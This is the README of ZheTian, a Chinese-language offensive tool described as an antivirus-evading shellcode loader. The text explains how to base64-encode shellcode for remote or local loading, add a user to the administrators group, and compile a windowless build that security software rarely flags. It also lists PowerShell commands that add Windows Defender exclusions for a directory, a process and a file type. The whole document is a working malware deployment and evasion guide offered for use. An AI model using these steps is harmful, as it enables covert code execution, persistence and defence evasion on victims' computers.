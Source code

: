 ![my-logo.png](https://raw.githubusercontent.com/yqcs/ZheTian/master/images/logo.png "my-logo")

# [ZheTian](https://github.com/yqcs/ZheTian/)

## ZheTian Powerful remote load and execute ShellCode tool，ShellCode免杀加载器

### 命令：

> -u  string：从远程服务器加载base64混淆后的字符串。
>
> -r string：从本地文件内读。
>
> -s string：读取无修改的原始文件，只能从本地加载。
>
>-o boolean：向userHome\tmp目录输出一次性可执行文件，体积比主程序小了五六倍，砍去了其他功能，只保留了ShellCode Loader
>
>-n string：向管理员组创建用户，-n的参数即为账户，-p的参数为密码。需以管理员身份运行
>
>-c string：直接从命令行获取base64字符串。如：ZheTian -c ZmM0ODgzZTRmMGU4Yzg4YjUyMjA4YjQyM2M==...
>

## 示例：

### Base64字符串方式加载：

原始python代码：
> buf = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75..."

只需提取数组中的16进制代码：
> \xfc\x48\x83\xe4\xf0\xe8\xc8\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75...
>
然后去除\x，得到：
> fc4883e4f0e8c88b52208b423c4801d0668178180b0275......
>
然后使用base64转码，得到：
> ZmM0ODgzZTRmMGU4Yzg4YjUyMjA4YjQyM2M0ODAxZDA2NjgxNzgxODBiMDI3NQ==
>
c、ruby等同理，Java之流的则是去除  ", 0x"。注意，是逗号空格0x
> byte buf[] = new byte[] { 0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc8, 0x00, 0x00, 0x00, 0x41};
>

获取到base64字符串之后可以选择放到远程服务器加载，使用-u 命令即可。也可以放到本地文件内，或者直接使用-c命令以命令行方式运行。如：ZheTian.exe -c
ZmM0ODgzZTRmMGU4Yzg4YjUyMjA4YjQyM2M0ODAxZDA2NjgxNzgxODBiMDI3NQ==

### 原文件读取类型：

使用 `ZheTian -h `命令可查看支持的语言。推荐使用Java、py、C语言。原文件无需进行任何修改即可直接加载，但是不支持放在远程服务器，只能通过本地 -s
命令读取，如： `ZheTian -s C:/Windows/Temp/payload.java`

### 图示操作过程

先生成64位shellcode

![my-logo.png](https://github.com/yqcs/ZheTian/blob/master/images/payload.jpg "my-logo")

然后根据需要的命令进行修改
![my-logo.png](https://raw.githubusercontent.com/yqcs/ZheTian/master/images/code.png "my-logo")

下面执行示例：
![my-logo.png](https://github.com/yqcs/ZheTian/blob/master/images/c.png "my-logo")

### 编译：

> go build -ldflags "-w -s" -o ZheTian.exe

可以使用
> go build -ldflags "-w -s -H windowsgui" -o ZheTian.exe

实现无窗口运行，但是360偶尔会识别为恶意程序

#### 带图标编译：

> 先执行：go get github.com/akavel/rsrc
>
> rsrc -manifest ZheTian.manifest -ico favicon.ico -o ZheTian.syso
>
>再执行go build -ldflags "-w -s" -o ZheTian.exe
>
> 更多介绍：https://blog.csdn.net/qq_38376348/article/details/108318880
>

## 扩展：windows defender

由于ZheTian的defender免杀效果不稳定，在此推荐一种方式，执行下面命令会分别向defender添加白名单：目录、进程、类型文件

#### 需以管理员权限运行

> powershell -Command Add-MpPreference -ExclusionPath "C:\tmp"
>
>powershell -Command Add-MpPreference -ExclusionProcess "java.exe"
>
>powershell -Command Add-MpPreference -ExclusionExtension ".java"
>

## 有问题可以提Issues，也可加微信联系

![my-logo.png](https://raw.githubusercontent.com/yqcs/ZheTian/master/images/wx.jpg "my-logo")
